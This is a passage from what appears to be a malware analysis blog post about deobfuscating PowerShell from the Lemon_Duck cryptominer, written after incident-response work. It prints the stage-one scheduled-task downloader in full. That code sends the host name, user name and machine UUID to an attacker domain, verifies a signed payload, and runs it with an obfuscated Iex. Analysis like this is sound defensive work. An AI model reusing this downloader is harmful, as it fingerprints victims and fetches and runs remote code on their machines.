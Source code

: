It is worth noting that a quite easy and primitive technique that may work sometimes is using `Write-Output` to get the deobfuscated script. This works in some cases, but we won’t get into too many details on when and why it works.

## Lemon_Duck Cryptominer Hands On

In a couple of my previous IR engagements, I encountered the Lemon_Duck cryptominer which had multiple multi-stage obfuscated PowerShell scripts.

### Scheduled Task: Downloader

The first script was found in a scheduled task.
```powershell
function a($u)
{
$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);
$c=$d.count;
    if($c -gt 173)
    {
        $b=$d[173..$c];
        $p=New-Object Security.Cryptography.RSAParameters;
        $p.Modulus
 [convert]::FromBase64String('2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=');
        $p.Exponent=0x01,0x00,0x01;
        $r=New-Object Security.Cryptography.RSACryptoServiceProvider;
        $r.ImportParameters($p);
        if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171]))))
        {
            I`ex(-join[char[]]$b)
        }
    }
}
$url='http://'+'t.pp6'+'r1.com';

a($url+'/a.jsp?'+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join'*'))
```

This PowerShell script didn't have many obfuscation techniques. If anything, it was quite readable from the get-go with some simple format fixing such as indentation.

It basically sends a request to http://t.pp6r1[.]com/a.jsp which contains the hostname, username,  UUID, and a random number as parameters.

By changing the call to `a()` to `Write-Host`  We can get the URL instead of getting it to execute.

{: style="text-align:center"}